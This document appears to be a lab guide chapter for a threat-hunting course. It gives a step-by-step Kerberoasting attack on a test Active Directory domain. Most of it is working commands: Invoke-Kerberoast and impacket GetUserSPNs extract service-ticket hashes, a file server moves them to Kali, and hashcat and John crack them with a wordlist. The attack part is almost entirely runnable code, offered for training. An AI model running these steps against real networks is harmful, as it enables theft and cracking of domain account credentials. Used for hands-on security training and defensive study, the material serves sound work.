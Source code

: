 # Chapter 2.4.1 - The Attack 

on windows 
====

choco install -y python3  
python -m pip install --upgrade pip

in powershell:  

```code
[Environment]::SetEnvironmentVariable("Path", "$env:Path;C:\Python38")
```

pip install updog

Powershell : 

```code
cd C:\terraform\threathunt\labs\4_KERBEROAST
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

Open the file "hashcapture.txt" with Notepad++  
In the menu select "Encoding" and set it to "Encode in UTF-8" 
Save the file and the BOM will be gone.

start updog in the folder where you saved hashcapture.txt

on Kali hashcat / John
====

cd ~
wget http:\\10.0.0.x\hashcapture.txt

```
testadmin@AZ-KALI:~$ file hashcapture.txt 
hashcapture.txt: ASCII text, with very long lines, with CRLF line terminators
```

cat hashcapture.txt | tr -d " \t\n\r" > hash_clean.txt

hashcat -m13100 -a 0 hash_clean.txt Top1m.txt --force --potfile-disable


IMPACKET PYTHON
====

./GetUserSPNs.py acme.local/testadmin:Password1234! -o spns.txt -request -dc-ip 10.0.0.4

john --wordlist=Top1m.txt spns.txt

On your MAC or a local Kali Linux
====

Cracking hashes with hashcat is typically done on dedicated hardware - in this lab hashcat won't work on your Kali Linux machine in Azure. Hashcat is tricky when it comes to drivers and memory/cpu requirements.

You can give it a go on your own OS by installing Hashcat, below is the simplest way of doing this on MacOS - the performace won't be great, but it's enough to show the principle of password cracking.

```code 
brew install hashcat  
hashcat -m 13100 -O -a 0 hashes.txt Top1m.txt --force --potfile-disable --self-test-disable
```

|   |   |
|---|---|
|-O | switch to optimized OpenCL kernels|  
|-a | 0 = dictionary |
|   | 6 = brute force |
|-m | 13100 = Kerberos TGS-REP   |

![Screenshot command](./assets/03-hashcat.jpg)